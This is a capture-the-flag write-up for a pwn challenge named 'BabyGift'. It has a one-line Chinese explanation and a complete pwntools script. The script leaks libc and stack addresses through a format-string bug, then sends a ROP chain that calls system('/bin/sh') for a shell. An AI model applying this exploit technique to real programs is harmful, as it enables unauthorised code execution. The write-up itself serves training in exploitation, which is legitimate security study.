 # PWN

## BabyGift

![image-20240422202855033](https://awaqwqa.github.io/img/xyctf/image-20240422202855033.png)

- 利用这里会让字符串地址赋值给rdi 然后我们通过劫持程序流程跑到printf处 利用格式化字符串漏洞就能泄露libc地址 然后触发system函数

```python
from pwn import *

# context(os='linux', arch='amd64', log_level='debug')
# context(os='linux', arch='amd64')
# context.terminal = ['byobu', 'sp', '-h']


file_name = "./vuln"
url = "127.0.0.1"
port = 64472

elf = ELF(file_name)
# p= process(file_name)
# p = gdb.debug(file_name,"b *Menu+113")
p = remote(url,port)

sd = lambda s : p.send(s)
sl = lambda s : p.sendline(s)
sa = lambda n,s : p.sendafter(n,s)
sla = lambda n,s : p.sendlineafter(n,s)
rc = lambda n : p.recv(n)
rl = lambda  : p.recvline()
ru = lambda s : p.recvuntil(s)
ra = lambda : p.recvall()
ia = lambda : p.interactive()
uu32 = lambda data : u32(data.ljust(4, b'\x00'))
uu64 = lambda data : u64(data.ljust(8, b'\x00'))
pop_rbp = p64(0x4012D0)
lea_rax = p64(0x4012A0 )
bss = p64(0x404020+0x200)
sub_rsp = p64(0x4012DC)
ret = p64(0x40101a)
mov_rax_0_pop_rbp = p64(0x4012CB)
mov_rax_printf = p64(0x401202)


ru(b"Your name:\n")
sl(b"elegy")
ru(b"Your passwd:\n")
payload = b"%27$p%11$p".ljust(0x20,b"a")+p64(0x404020+0x100)+mov_rax_printf +p64(0x40122D)*2
sd(payload)
res = rl()
libc_base = int(res[:14],16) -128 -0x29DC0
stack_addr = int(res[14:28],16)
print("stack_addr",hex(stack_addr))
system_addr = 0x50D70 +libc_base
print(hex(libc_base))
ru(b"Your name:\n")
sl(b"elegy")
ru(b"Your passwd:\n")
payload = b"/bin/sh\x00".ljust(0x28,b"a") +ret+p64(system_addr)
sl(payload)
ia()
```